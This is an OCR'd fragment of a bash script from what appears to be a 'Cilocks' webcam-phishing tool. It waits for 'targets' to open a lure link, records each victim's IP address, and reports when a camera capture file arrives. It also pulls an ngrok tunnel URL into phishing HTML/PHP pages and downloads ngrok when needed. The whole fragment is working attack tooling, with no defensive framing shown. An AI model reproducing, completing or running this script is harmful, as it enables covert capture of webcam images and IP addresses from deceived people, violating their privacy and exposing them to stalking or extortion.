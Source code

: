   ip=$(grep -a 'IP:' ip.txt | cut -d " " -f2 | tr -d '\r')
  IFS=$'\n'
  echo -e "${m}IP:${n}" $ip

  cat ip.txt >> saved.ip.txt


  }

  checkfound() {

  echo -e "\n"
  echo -e "${lh} Waiting targets,${n} Press Ctrl + C to exit..."
  while [ true ]; do


  if [[ -e "ip.txt" ]]; then
  echo -e "${m} Target opened the link!${n}\n"
  echo -e "${k} File saved as cam${n}"
  catch_ip
  rm -rf ip.txt

  fi

  sleep 0.5

  if [[ -e "Log.log" ]]; then
  echo -e "${lh} Cam file received!${n}"
  rm -rf Log.log
  fi
  sleep 0.5

  done

  }

  payload_ngrok() {

  link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z-]*\.ngrok.io")
  sed 's+forwarding_link+'$link'+g' tmp.html > index2.html
  sed 's+forwarding_link+'$link'+g' tmp.php > index.php


  }

  ngrok_server() {


  if [[ -e ngrok ]]; then
  echo ""
  else
  command -v unzip > /dev/null 2>&1 || { echo >&2 "${lh}Cilocks require unzip but it's not installed. Install it. Aborting.${lh}"; exit 1; }
  command -v wget > /dev/null 2>&1 || { echo >&2 "${lh}Cilocks require wget but it's not installed. Install it. Aborting.${lh}"; exit 1; }
  echo -e "${m} Downloading Ngrok...${n}\n"
  arch=$(uname -a | grep -o 'arm' | head -n1)
  arch2=$(uname -a | grep -o 'Android' | head -n1)
  if [[ $arch == *'arm'* ]] || [[ $arch2 == *'Android'* ]] ; then
  wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&1
